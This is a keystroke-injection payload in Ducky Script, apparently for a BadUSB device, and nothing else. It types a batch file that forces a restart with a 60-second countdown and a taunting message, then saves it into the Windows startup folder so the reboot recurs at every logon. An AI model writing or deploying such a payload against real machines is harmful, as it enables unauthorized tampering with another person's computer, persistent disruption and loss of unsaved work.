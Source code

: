 DELAY 500
GUI r
DELAY 500
STRING notepad
DELAY 500
ENTER
DELAY 500
STRING shutdown.exe -r -t 60 -c "you have 60 sec to stop this computer from resarting(!!!SAVE YOUR WORK!!!), go to cmd and type shutdown.exe (-)a without brackets. And if you want to stop this from happening every time you logon delete the file from startup."
DELAY 550
CTRL s
DELAY 500
STRING shutdown.bat
DELAY 500
TAB
DELAY 100
TAB
DELAY 100
TAB
DELAY 100
TAB
DELAY 100
TAB
DELAY 100
TAB
DELAY 700
ENTER
DELAY 200
STRING startup
DELAY 700
ENTER
DELAY 500
TAB
DELAY 100
TAB 
TAB
DELAY 100
TAB
DELAY 100
TAB
DELAY 400
TAB
DELAY 100
TAB 
TAB
DELAY 100
TAB
DELAY 100
TAB
ENTER
ALT F4
TAB
DELAY 100
ENTER